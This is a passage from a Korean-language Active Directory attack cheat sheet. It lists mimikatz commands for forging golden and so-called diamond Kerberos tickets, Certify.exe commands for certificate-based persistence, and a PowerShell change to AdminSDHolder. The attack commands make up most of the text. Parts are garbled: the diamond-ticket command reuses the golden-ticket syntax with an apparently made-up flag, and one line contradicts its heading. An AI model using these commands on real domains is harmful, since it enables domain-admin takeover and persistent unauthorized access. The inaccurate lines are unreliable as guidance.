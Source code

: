 2. 도메인 관리자 권한을 얻기 위해 골든 티켓 생성.

```js
mimikatz.exe "kerberos::golden /user:<사용자이름> /domain:<도메인> /sid:<도메인SID> /krbtgt:<krbtgt 해시> /id:<사용자ID> /groups:<그룹ID들>" "exit"
```

# 다이아몬드 티켓

<div class="content-ad"></div>

- 특별 권한이 있는 다이아몬드 티켓을 만들어보세요.

```js
mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:<user_id> /groups:<group_ids> /extra:<extra_privileges>" "exit"
```

2. 네트워크 내에서 특정 작업에 해당 티켓을 사용하세요.

# 인증서 계정 지속성

<div class="content-ad"></div>

- 지속성을 유지하기 위해 인증서 템플릿을 남용하지 않도록 주의하세요.

```js
Certify.exe request /ca:<CA Name> /template:<Template Name>
```

2. 인증서를 다시 발급하여 계속된 액세스를 보장하세요.

```js
Certify.exe renew /id:<cert_id>
```

<div class="content-ad"></div>

# 인증서 도메인 지속성

- 도메인 인증서를 수정하여 상위 액세스를 유지하세요.
- 주기적으로 인증서를 갱신하여 지속적인 액세스를 보장하세요.

```js
Certify.exe renew /id:<cert_id>
```

# AdminSDHolder 그룹

<div class="content-ad"></div>

- AdminSDHolder 그룹 설정을 수정합니다.

```js
Set-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=<도메인>,DC=com" -Replace @{adminCount=1}
```
